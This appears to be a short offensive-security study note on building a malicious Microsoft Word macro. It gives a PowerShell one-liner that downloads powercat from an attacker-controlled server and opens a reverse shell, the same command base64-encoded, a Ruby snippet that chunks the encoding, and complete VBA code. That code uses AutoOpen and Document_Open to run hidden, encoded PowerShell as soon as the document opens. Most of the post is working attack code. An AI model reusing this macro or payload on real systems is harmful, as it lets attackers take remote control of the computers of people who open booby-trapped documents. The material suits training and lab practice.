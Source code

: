 ```yaml
---
layout: post
title: office macros
titledate: 09/05/23
tags: ["infosec","offsec", "macros", "powershell", "shell"]
---
```


when creating a macro in word

view -> macros -> view macros -> TitleMacro and choose your current document from Macros In

AutoOpen and Document_Open are necssary to automatically execute our macro upon the document execution

for our payload we'll download powercat from our hosted web server and base64 it UTF16-LE

    IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.x.x/powercat.ps1');powercat -c 192.168.x.x -p 443 -e powershell

we have a string size limitation so we need to split our string into length of 50

ruby one liner 
  
    payload = SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTkyLjE2OC40NS4xNTQvcG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4xNTQgLXAgNDQzIC1lIHBvd2Vyc2hlbGw=

  ```ruby
payload.chars.each_slice(50).map(&:join).each{|arr|p "Str = Str + #{arr}"}
```
  

```vb
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()
  Dim Str as String

  Str = Str + "powershell.exe -nop -w hidden -enc "
  Str = Str + "SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdA"
  Str = Str + "BlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBE"
  Str = Str + "AG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AH"
  Str = Str + "AAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANQA0AC8A"
  Str = Str + "cABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQ"
  Str = Str + "ByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAu"
  Str = Str + "ADEANQA0ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AG"
  Str = Str + "UAcgBzAGgAZQBsAGwA"
  
  CreateObject("Wscript.Shell").Run Str
End Sub
```